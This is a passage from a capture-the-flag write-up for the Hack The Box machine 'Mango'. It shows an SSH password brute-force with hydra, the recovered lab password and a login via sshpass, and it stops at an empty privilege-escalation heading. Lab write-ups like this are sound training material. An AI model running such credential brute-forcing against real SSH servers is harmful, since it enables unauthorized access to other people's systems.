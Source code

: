 ## TCP/22 (SSH)
1. Bruteforce w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/mango/10.10.10.162/exploit]
	└─# hydra -L usernames.txt -P password.txt ssh://mango.htb
	Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-24 03:00:05
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:2/p:2), ~1 try per task
	[DATA] attacking ssh://mango.htb:22/
	[22][ssh] host: mango.htb   login: mango   password: h3mXK8RhU~f{]f5H
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-24 03:00:08
	```
2. SSH w/ `mongo:h3mXK8RhU~f{]f5H`
	```
	┌──(root💀kali)-[~/htb/mango/10.10.10.162/exploit]
	└─# sshpass -p "h3mXK8RhU~f{]f5H" ssh mango@mango.htb
	Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	  System information as of Fri Sep 23 19:01:25 UTC 2022
	
	  System load:  0.12               Processes:            104
	  Usage of /:   31.6% of 19.56GB   Users logged in:      0
	  Memory usage: 29%                IP address for ens33: 10.10.10.162
	  Swap usage:   0%
	
	
	 * Canonical Livepatch is available for installation.
	   - Reduce system reboots and improve kernel security. Activate at:
	     https://ubuntu.com/livepatch
	
	122 packages can be updated.
	18 updates are security updates.
	
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	
	Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
	mango@mango:~$ id;whoami
	uid=1000(mango) gid=1000(mango) groups=1000(mango)
	mango
	mango@mango:~$
	```

# Privilege Escalation
